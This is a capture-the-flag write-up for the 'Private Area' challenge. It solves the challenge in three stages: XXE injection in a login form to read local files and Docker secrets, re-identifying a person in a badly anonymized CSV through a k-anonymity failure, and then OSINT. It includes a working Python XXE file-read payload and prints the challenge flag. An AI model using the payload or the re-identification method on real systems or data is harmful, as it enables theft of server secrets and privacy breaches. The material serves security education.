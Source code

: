 # Private Area

**Author:** thiefCatcher and Rackham
**Category:** misc
**Difficulty:** hard

## Description

In the Cloud Infrastructure course, students just found the advantages of using recent platforms for their container orchestration.
They understood the concepts, and were highly enthusiastic about isolation and secret management features.

## Solve

This challenge is divided into three stages. The first part starts with a web page vulnerable by XXE injection.

![Captura de ecra](https://user-images.githubusercontent.com/17878072/146542767-5548f2a7-a096-4bb2-922e-3a466c583dd1.png)

To get the files from the machine, you can use the following snippet of code:

```python
headers = {"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"}
safe_string = urllib.parse.quote_plus(f'<?xml version="1.0" ?><!DOCTYPE r [<!ENTITY sp SYSTEM "file://{filename}">]><form><username>&sp;</username><password>p</password></form>')
r = s.post(f"{url}/login/", data='xml='+safe_string, headers=headers)
```
The description would point towards secrets and the XXE vulnerability allowed access to locations such as `/proc/mounts` revealing the mount points in use, and the location of the `app_secret_key`.

The goal of this first phase is to access the docker secrets. So we can create a token as admin and access the '/private' link. This page contains the following information:

```html
<head>
    <link rel="stylesheet" href="/static/css/style.css"></link>
</head>

<body>
<div class="wrapper fadeInDown">
  <div id="formContent">
    <h2 class="active"> Private Data </h2>
    <div>
      <h3>static/1BKTYGPU8V4HBX6ZANJO8PIUD3NUSA/dump.zip</h3>
    </div>
  </div>
</div>
</body>
```

The second stage requires downloading the dump.zip file at `http://193.137.173.211:2006/static/1BKTYGPU8V4HBX6ZANJO8PIUD3NUSA/dump.zip`
Inside this zip file, there are 3 files:

  - contacts.csv: which contains an id, name, surname and the social network of the subjects
  - leak.csv: which is supposed to be anonymized, but it was incorrectly anonymized. 
  - README.md: a readme file with some hints about what should be done.

```
# About

We did a mistake during the anonymization process of this data. The person responsible for anonymizing the dataset did not respect Mister K5. If you find the right person, you will find his/her social network. The flag is there.
```

One of the most used anonymization techniques is k-anonymity. One of its principles indicates that an anonymised dataset should have at least k records with the same quasi-identifiers. We can obtain that information by using the following command:

```
cat leak.csv |cut -d ',' -f 2,3,4 |sort |uniq -c |sort -n -r
```

The result of this operation is a female person with 25 years living in the zip-code area 3810-391 (25,female,3810-391). This quasi identifier only occurs 4 times, which does not respect the k-anonymization rule. By retrieving the 4 entries, we can see that there is one with a social_network_id, that we can correlate with the contacts.csv file. This way we obtain the Alina Petrov on Facebook.

```
$ cat leak.csv| grep 25,female,3810-391
NaN,25,female,3810-391,NaN
NaN,25,female,3810-391,NaN
NaN,25,female,3810-391,4KH3QS1HH0
NaN,25,female,3810-391,NaN
```

The third phase is based on OSINT and the goal is to find the flag on Alina's profile. This flag is in a video of DETI (the organizers' department)

## Flag

CTFUA{i_l0ve_Av3iro}
